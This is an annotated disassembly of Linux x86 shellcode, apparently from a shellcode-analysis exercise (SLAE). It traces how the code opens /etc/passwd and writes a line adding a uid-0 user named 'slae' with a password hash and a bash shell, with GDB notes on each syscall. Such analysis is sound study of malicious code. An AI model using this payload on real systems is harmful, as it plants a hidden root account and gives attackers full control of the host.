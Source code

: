 ```nasm
00000023  CD80              int 0x80						  ; open /etc/passwd for writing without controlling terminal
00000025  93                xchg eax,ebx						; eax = 0, ebx = file descriptor (fd)

																	      ; from here on GDB was used to understand the code

00000026  E824000000        call dword 0x4f 				   ; put PAYLOAD address on the stack
 |
 +->0000004F	0x080497af <code+79>:	pop    ecx 							; ecx = EIP return address [PAYLOAD @ 0000002B] (buf)
	00000050	0x080497b0 <code+80>:	mov    edx,DWORD PTR [ecx-0x4]	; edx = EIP return address - 4 [DWORD @ 00000027 = 24000000] (count)
	00000053	0x080497b3 <code+83>:	push   0x4								; #define __NR_write 4
	00000055	0x080497b5 <code+85>:	pop    eax 								; eax = ssize_t write(int fd, const void *buf, size_t count);
	00000056	0x080497b6 <code+86>:	int    0x80 							; write PAYLOAD to /etc/passwd (length = 0x24 bytes in little endian)
	00000058	0x080497b8 <code+88>:	push   0x1								; #define __NR_exit 1
	0000005A	0x080497ba <code+90>:	pop    eax 								; eax = void exit(int status);
	0000005B	0x080497bb <code+91>:	int    0x80 							; exit
				0x080497bd <code+93>:	add    BYTE PTR [eax],al 			; this does not get executed

																	      ; PAYLOAD = slae:Azj8ZjGrnsZic:0:0::/:/bin/bash\n 	(0x24 = 36 bytes) 
0000002B  736C              jnc 0x99
0000002D  61                popad
0000002E  653A417A          cmp al,[gs:ecx+0x7a]
00000032  6A38              push byte +0x38
00000034  5A                pop edx
00000035  6A47              push byte +0x47
00000037  726E              jc 0xa7
00000039  735A              jnc 0x95
0000003B  69633A303A303A    imul esp,[ebx+0x3a],dword 0x3a303a30
00000042  3A2F              cmp ch,[edi]
00000044  3A2F              cmp ch,[edi]
00000046  62696E            bound ebp,[ecx+0x6e]
00000049  2F                das
0000004A  626173            bound esp,[ecx+0x73]
0000004D  680A598B51        push dword 0x518b590a
																	     ; write PAYLOAD to /etc/passwd (length = 36 bytes in little endian)
00000052  FC                cld
00000053  6A04              push byte +0x4
00000055  58                pop eax
00000056  CD80              int 0x80
00000058  6A01              push byte +0x1
0000005A  58                pop eax
0000005B  CD80              int 0x80
```
